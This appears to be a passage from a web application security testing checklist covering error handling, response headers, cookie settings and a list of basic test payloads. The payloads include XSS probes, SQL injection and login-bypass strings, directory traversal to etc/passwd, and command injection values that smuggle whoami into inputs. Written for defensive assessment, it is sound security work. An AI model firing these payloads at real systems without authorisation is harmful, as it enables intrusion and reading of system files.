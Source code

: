 The ratings provided in the checklist were primarily generating using CVSS V3.1 average scores for 2025 CVEs. Please use the following tools to create ratings that more accurately represent your application and organization's risk appetite:

https://owasp.org/www-community/OWASP_Risk_Rating_Methodology

https://www.first.org/cvss/calculator/4-0

## Continuous Review
Please continue to evaluate the continuous review section and response headers sections of the checklist throughout the entire assessment. We encourage app teams to update the checklist and payload lists with language specific links and relevant company policies to ensure future developers follow the organization's requirements.
### Error Messages are Properly Handled
Error messages should be short and generic. Do not show stack traces or informative messages to the user.
### Autocomplete Disabled on Sensitive Input Fields
Emails, password, challenge questions, and other sensitive information should have autocomplete="off".
### Sensitive Information is Masked
Sensitive information should be masked to mitigate shoulder surfing attacks.
### Sensitive Information Not in URL
Do not send sensitive information in GET request parameters.
### Unneccessary Methods are Disabled
Do not allow unsafe methods such as Trace or Connect on any endpoint. Disable DELETE, POST, etc. if not needed on the endpoint.
### HTTP Disabled
Enforce HTTPS for all connections.

## Response Headers
The following tools will check the response headers of your application and report on any insecurities or misconfigurations. We highly recommend checking the response headers manually because these tools may not follow the requirements of your organization. Additionally, most of these tools are limited to unauthenticated checks, meaning that sensitive authenticated responses will not be evaluated.

https://securityheaders.com/

https://hackertarget.com/http-header-check/

### Content-Security-Policy 
The CSP should include script-src and default-src. Do not use unsafe directives, such as unsafe-inline or unsafe-eval. Do not include wildcards in the CSP unless they are used in the subdomain of a trusted site. 

Quick Guide: https://content-security-policy.com/

Evaulation Tool: https://csp-evaluator.withgoogle.com/
### Strict-Transport-Security
The Strict-Transport-Security response header should contain the max-age directive set to 1 year or greater and the includeSubdomains directive. If the application is externally available, include the Preload directive.

Example: Strict-Transport-Security: max-age=63072000; includeSubDomains; preload

### Caching
**Cache-Control** - Set the cache-control response header to include the “no-store” flag in all responses.

**Expires** - Set the Expires header to a date in the past, or zero, in all responses.

### Information Leak Headers
Remove unneccessary response headers, such as: Server, X-Powered-By, X-AspNet-Version.

### CORS Headers
Do not set Access-Control-Allow-Origin to wildcard or reflect arbitrary origins/subdomains.

https://www.freecodecamp.org/news/exploiting-cors-guide-to-pentesting/

## Cookies
All cookies should have the following attributes: Secure, HttpOnly, SameSite: lax or strict.

https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie

## Payloads Required Section
This payload list will include a diverse set of basic payloads for each attack type with the goal of identifying the vulnerability using the least amount of attempts. For a longer list of payloads, see the LongPayloadList document or review the sources below. While this payload list was hand selected from my own personal notes(generated over the course of 3 years), most of the payloads can be found in the sources below.

[https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

https://book.hacktricks.wiki/en/index.html

https://portswigger.net/web-security/all-topics


## Cross-Site Scripting (XSS):

[https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

Enter the following payloads into user input fields and see how they are reflected in the application. If user input is reflected back unencoded and unfiltered, especially in javascript, then XSS is likely.

Alert() can be replaced with print() if your application is filtering out alert().
```
<b>test</b> 
<script>alert(1)</script>

<img src=1 onerror=alert(1)>

javascript:alert(document.cookie)

"onload="alert(1)

${alert(1)}

alert`1`

'-alert()-'
```


## SQL Injection
Review the following site for a cheat sheet showing specific requirements and payloads for the most common databases. This will help tailor the following payloads to your environment. For example, if your application uses MySQL, replace the `--` in the commands below with `#`.

https://portswigger.net/web-security/sql-injection/cheat-sheet

```
' followed by: ''

Oracle Concat: foo'||'bar
Microsoft Concat: foo'+'bar
PostgreSQL Concat: foo'||'bar
MySQL Concat: foo' 'bar

' OR 1=1 -- followed by: ' OR 1=2 --
' order by 1 -- followed by: ' order by 100 --
(SELECT 1) followed by: (SELECT 2)

'||pg_sleep(10)--
' OR sleep(5) OR '
'||pg_sleep(5)||'

SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

## SQL Injection on Login Pages
**Username Field:**
```
'
''
admin'--
admin')--
admin' or 1=1--
admin') or 1=1-- -
admin' AND 1=1-- 
admin'||1=1#
```

**Password Field:**
```
'
''
' or 1=1--
') or 1=1-- -
```

## Directory Traversal
Please use a file/file path that exists on the web server. For example, etc/passwd if its a linux server and windows/win.ini if it is a windows server. Extend the ../ as needed.
```
../../../etc
../../../etc/passwd
....//....//....//etc/passwd
..%252f..%252f..%252fetc/passwd
../../../windows/win.ini
```

## Command Injection
All "whoami" text can be replaced with "sleep 3."
```
+;+whoami
+&&+whoami
+|+whoami
+`whoami`
+$(whoami)
‘ | whoami
‘ | whoami ‘
‘ | whoami #
; sleep 3
```
